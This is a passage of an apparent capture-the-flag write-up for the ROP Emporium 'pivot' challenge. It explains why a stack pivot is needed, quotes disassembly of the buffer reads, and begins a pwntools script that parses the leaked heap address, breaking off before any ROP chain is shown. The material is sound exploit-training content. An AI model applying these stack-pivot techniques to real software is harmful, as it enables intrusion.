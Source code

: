 # PIVOT

[pivot](https://ropemporium.com/challenge/pivot.html)

Ever heard of "2 birds 1 stone"? This is what the author of ROP Emporium has given us. Not only do we have to create 2 separate ROP chains (using a stack pivot), we also have to somehow call the `ret2win()` function in `libpivot.so` that isn't imported by `pivot`.

Why do we need to pivot our stack to a new location? Well, the `pivot` program only permits us to write 64 bytes into our buffer. Since, our buffer is 32 bytes, we only have 24 bytes to work with. Fortunately, the author of ROP Emporium has magnanimously bestowed 256 bytes to work with after we have pivoted our stack pointer over to the new heap-allocated memory location.

```
$ objdump -M intel -D ./pivot
...
  40094c:       48 8b 45 d8             mov    rax,QWORD PTR [rbp-0x28] <- location of heap
  400950:       ba 00 01 00 00          mov    edx,0x100 <- 256 bytes of space on the heap
  400955:       48 89 c6                mov    rsi,rax
  400958:       bf 00 00 00 00          mov    edi,0x0
  40095d:       e8 ae fd ff ff          call   400710 <read@plt>
...
  400985:       48 8d 45 e0             lea    rax,[rbp-0x20]
  400989:       ba 40 00 00 00          mov    edx,0x40 <- How many bytes we can write into buffer
  40098e:       48 89 c6                mov    rsi,rax
  400991:       bf 00 00 00 00          mov    edi,0x0
  400996:       e8 75 fd ff ff          call   400710 <read@plt>
...
```

## Pivoting the stack

The first order of business is setting `rsp` to the location of the heap. Thankfully, `pivot` tells us exactly where the malloc'd heap region can be found.

```
$ ./pivot
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7f94185fef10
Send a ROP chain now and it will land there
> 
```

Unfortunately, the address of this heap-allocated region keeps changing (due to the behaviour of `malloc`), so we have to somehow save this address into our `win.py` script. The following snippets takes the fifth line outputted by `pivot` and extracts the memory address from the end of that line. The memory address is then stored under the variable called `pivot_point`.

```python
from pwn import *
...
def get_pivot_point(pivot_line: str) -> int:
    """
    extract memory address from fifth line
    """
    num_index = pivot_line.index("0x") # find memory address
    address_str = pivot_line[num_index:] # extract memory address
    return int(address_str, 16) # convert memory address into integer
...
io.recvline()
io.recvline()
io.recvline()
io.recvline()
```